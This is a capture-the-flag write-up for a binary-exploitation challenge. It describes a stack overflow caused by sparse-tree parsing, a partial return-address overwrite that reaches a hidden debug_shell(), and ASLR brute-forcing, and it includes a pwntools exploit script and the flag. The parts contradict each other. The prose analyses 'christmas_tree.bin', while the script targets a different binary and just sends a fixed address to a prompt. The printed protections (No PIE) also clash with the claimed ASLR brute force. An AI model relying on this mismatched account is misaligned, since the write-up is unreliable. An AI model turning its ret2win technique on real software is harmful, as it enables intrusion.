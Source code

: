 # Where We JMPing - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/WhereWeJMPing.gif)

---

## Challenge Summary

The challenge involves a binary that parses binary tree-like strings into a flat array representation on the stack. Due to a flawed assumption that the tree is fully balanced, the program underallocates stack space when parsing sparse trees. This leads to a stack-based buffer overflow. The attacker can exploit this to partially overwrite the return address and redirect execution to a built-in debug_shell() function using a ret2win strategy. ASLR is bypassed with a brute-force approach targeting the lower 12 bits of the address.

## Binary Information

```bash
$ file christmas_tree.bin
```

![Alt text](img/2.png)

```bash
$ checksec christmas_tree.bin
```

![Alt text](img/3.png)

---

## Static Analysis (IDA Pro)

The `main()` function reads user commands and passes input to `print_tree()` when the `"display"` option is chosen.

![Alt text](img/4.png)

In `print_tree()`, the program:

- Estimates the number of nodes (`estimate_tree_size()`),
- Allocates a stack buffer with `alloca()` based on that size,
- Parses the tree string via `decode_tree()`.

![Alt text](img/5.png)

**Issue:** The estimated size assumes a complete tree. With a deep, sparse tree, `decode_tree()` writes past the small buffer, causing a **stack buffer overflow**. This allows a **partial return address overwrite**, enabling a **ret2win exploit** via the hidden `debug_shell()` function.

---

## Exploit Strategy

Send a deeply nested, sparse tree string that causes the program to allocate a smaller buffer than needed. This triggers out-of-bounds writes on the stack, allowing partial overwrite of the return address. By placing specific characters at precise positions, the attacker overwrites the lower bytes of the return address to redirect execution to the hidden debug_shell() function. ASLR is bypassed by brute-forcing the unknown bits of the address, requiring multiple attempts to successfully gain a shell.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template where_we_jmping --host kubenode.mctf.io --port 30006
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'where_we_jmping')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'kubenode.mctf.io'
port = int(args.PORT or 30006)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

win_addr = b'0x4011a6'
io.recvuntil(b'Enter a memory address to jump to (as a hexadecimal, e.g., 0x401222): ')
io.sendline(win_addr)
for i in range(2) :
    io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")



```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The binary parses strings representing binary trees and stores them in a stack-allocated array. It calculates the required buffer size by counting the number of nodes and assuming the tree is fully balanced. However, this logic fails when the tree is **deep and sparse** (e.g., having only right children), where the **depth exceeds the allocated array size**.

As a result, during deserialization, the program writes **beyond the bounds of the stack buffer**, causing a **stack-based buffer overflow**. Because the stack layout places the return address near the end of the array, carefully crafted input can be used to **partially overwrite the return address**. Although stack canaries are present and **ASLR is enabled**, the attacker leverages:

- **A hidden `debug_shell()` function** (ret2win-style exploitation).
- **Partial return address overwrite** (only lower 2 bytes needed).
- **Brute-force guessing** (\~16 tries on average due to 4 bits of entropy).

This leads to reliable control of execution flow and ultimately a shell, allowing retrieval of the flag.

---

## Flag

```
MetaCTF{jmp1ng_t0_th3_g00d_l00t}
```
